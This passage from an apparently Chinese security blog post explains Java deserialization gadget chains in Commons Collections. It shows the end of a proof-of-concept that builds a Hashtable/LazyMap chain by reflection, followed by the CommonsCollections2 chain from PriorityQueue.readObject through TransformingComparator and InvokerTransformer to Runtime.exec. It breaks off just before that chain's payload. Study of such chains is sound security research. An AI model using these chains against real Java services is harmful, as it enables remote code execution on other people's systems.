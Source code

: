 ```java
        hashtable.put(lazyMap2, 2);

        Reflection.setFieldValue(transformerChain, "iTransformers", transformers);

        lazyMap2.remove("yy"); // 因为 put 第二次的时候会进入 equals, 然后调用 m.get("yy"), LazyMap 的懒加载最终会将 yy 也放入 map 中, 所以要把 innerMap2 中的 yy 删掉

        Serialization.test(hashtable);
    }
}
```

## CommonsCollections2

因为目前 commons-collections 有两个大版本 3 和 4, 而 cc2 cc4 这两条链就是 ysoserial 给 commons-collections4 准备的

当然其它 cc 链经过简单的修改之后也能够在 commons-collections4 中使用

以下是 cc2 的利用链

```
Gadget chain:
    ObjectInputStream.readObject()
        PriorityQueue.readObject()
            ...
                TransformingComparator.compare()
                    InvokerTransformer.transform()
                        Method.invoke()
                            Runtime.exec()
```

先看 PriorityQueue 的 readObject 方法

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202211231635386.png)

跟进 heapify()

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202211231635036.png)

继续跟进 shiftDown()

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202211231636059.png)

判断是否存在 comparator (通过构造方法传入), 存在的话则会进入 siftDownUsingComparator()

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202211231637148.png)

在方法中会调用 comparator 实现的 compare 方法来比较 queue 中的元素, 而在 commons-collections4 中存在一个 TransformingComparator, 它的 compare 会调用 transform 方法

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202211231638491.png)

到这里思路已经很明显了, payload 如下
